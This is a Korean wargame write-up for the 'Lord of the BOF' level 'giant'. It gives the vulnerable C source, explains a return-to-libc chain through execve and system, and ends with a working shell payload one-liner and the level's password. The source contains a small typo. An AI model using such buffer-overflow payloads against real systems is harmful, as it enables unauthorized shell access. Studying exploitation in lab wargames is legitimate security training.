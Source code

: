 ```yaml
---
title: "[LOB]Level14. giant"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180830
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: 
---
```


## keyword : RTL2, only execve

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - giant
        - RTL2
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(int argc, char *argv[])
{
	char buffer[40];
	FILE *fp;
	char *lib_addr, *execve_offset, *execve_addr;
	char *ret;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// gain address of execve
	fp = popen("/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "(%x)", &lib_addr);
	fclose(fp);

	fp = popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "%x", &execve_offset);
	fclose(fp);

	execve_addr = lib_addr + (int));
	// end

	memcpy(&ret, &(argv[1][44]), 4);
	if(ret != execve_addr)
	{
		printf("You must use execve!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

소스코드에는 다음단계의 libc주소를 파싱해서 가져와서 lib_addr에 저장을 한다.

그리고 해당 libc에서 __execve 함수 주소의  offset을 구해서 execve_offset에 저장을 한다.

`argv[1][44]` 에 주소를  ret에 저장을 하고 해당 값이 다르면 "You must use execve!"문자열을 출력하고 프로그램을 종료된다.

ret주소에 execve주소로 Buffer Overflow를 시키고 인자값으로 system함수의 주소를 넣어준다. 

system  함수의 인자로 "/bin/sh"의 주소를 넣어주면 payload가 완성된다.



execve_addr = ebp-56  => 0x080da023 / 0x400a9d48

system : 0x40058ae0

"/bin/sh" = 0x400fbff9

```sh
./giant "`python -c 'print "A"*44+"\x48\x9d\x0a\x40"+"\xe0\x8a\x05\x40"*2+"\xf9\xbf\x0f\x40"'`"
```

"\x0a"를 엔터로 인식하기 때문에 페이로드 전체를 "" 로 묶어준다.



**giant / one step closer**